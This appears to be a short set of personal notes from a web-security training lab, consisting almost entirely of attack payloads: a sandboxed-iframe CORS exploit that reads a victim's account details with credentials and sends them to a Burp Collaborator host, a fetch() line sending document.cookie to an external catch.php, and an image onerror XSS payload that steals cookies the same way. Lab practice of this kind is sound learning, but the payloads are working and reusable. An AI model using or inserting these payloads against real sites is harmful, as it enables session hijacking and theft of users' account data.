 ![[Pasted image 20240605160540.png]]
```javscript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        // Encode the response text to ensure it can be safely sent via URL
        var data = encodeURIComponent(this.responseText);
        // Create an image element to send the data to your server
        var img = new Image();
        img.src = 'http://y65cmywqqb7uq2kemy9eh8mltcz3nubj.oastify.com?key=' + data;
    };
    req.open('GET', 'https://0a3700ad0385b23f80f067f800a10090.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
</script>"></iframe>

```
# To fetch the cookie with JS : 
````javascript
fetch("http://www.dei.isep.ipp.pt/~jpl/catch.php?cookie="+document.cookie);
````
—–
# what about disguising my script as an image?
```javascript
<img src="non-existing-image.png" onerror="fetch('http://www.dei.isep.ipp.pt/~jpl/catch.php?cookie='+document.cookie); " />
```
--—
